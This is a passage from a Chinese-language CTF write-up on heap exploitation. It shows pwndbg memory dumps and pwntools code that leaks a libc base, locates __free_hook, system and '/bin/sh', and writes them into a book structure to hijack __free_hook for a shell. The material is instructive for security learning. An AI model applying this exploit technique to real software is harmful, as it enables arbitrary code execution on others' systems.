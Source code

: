 ```
pwndbg> x /10gx 0x0000555555605100
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198	0x000000000000ffff
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605198
0x555555605198:	0x00007ffff7b9a58b	0x00007ffff7dd37a8
0x5555556051a8:	0x0000000000021000	0x0000000000000000
0x5555556051b8:	0x0000000000020e51	0x0000000000000000
0x5555556051c8:	0x0000000000000000	0x0000000000000000
0x5555556051d8:	0x0000000000000000	0x0000000000000000
pwndbg> x /s 0x00007ffff7b9a58b
0x7ffff7b9a58b:	"/bin/sh"
pwndbg> x /gx 0x00007ffff7dd37a8
0x7ffff7dd37a8 <__free_hook>:	0x00007ffff7a53380

```

根据上面程序获得了book2_name_ptr和offset，进而得到libc基址，再得到__free_hook和system函数地址，还有/bin/sh地址

```python
# find in debug: mmap_addr - libcbase
# offset =  0x7ffff7fcf010 - 0x7ffff7a0e000s
offset=0x5c1010
libcbase = book2_name_ptr - offset
free_hook = libc.symbols['__free_hook'] + libcbase
system = libc.symbols['system'] + libcbase
binsh_addr = libc.search('/bin/sh').next() + libcbase
print('free_hook addr:'+hex(free_hook))
print('system_addr:'+hex(system))
print('binsh_addr:'+hex(binsh_addr))
```

得到的结果：

```
free_hook addr:0x7ffff7dd37a8
system_addr:0x7ffff7a53380
binsh_addr:0x7ffff7b9a58b
```

将__free_hook、/bin/sh的地址写入到book1_description

```python
payload = p64(binsh_addr) + p64(free_hook)
edit_book(target, 1, payload)
```

结果：

```
pwndbg> x /10gx 0x555555602040                            
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	0x0000555555605190    //global_book_struct_array      
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605100                        //book1_struct_addr
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198  0x000000000000ffff
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605198            //伪造后的book1_description_ptr，也是book2_description_ptr
0x555555605198:	0x00007ffff7b9a58b	0x00007ffff7dd37a8    //写入的__free_hook和/bin/sh地址
0x5555556051a8:	0x0000000000021000	0x0000000000000000
0x5555556051b8:	0x0000000000020e51	0x0000000000000000
```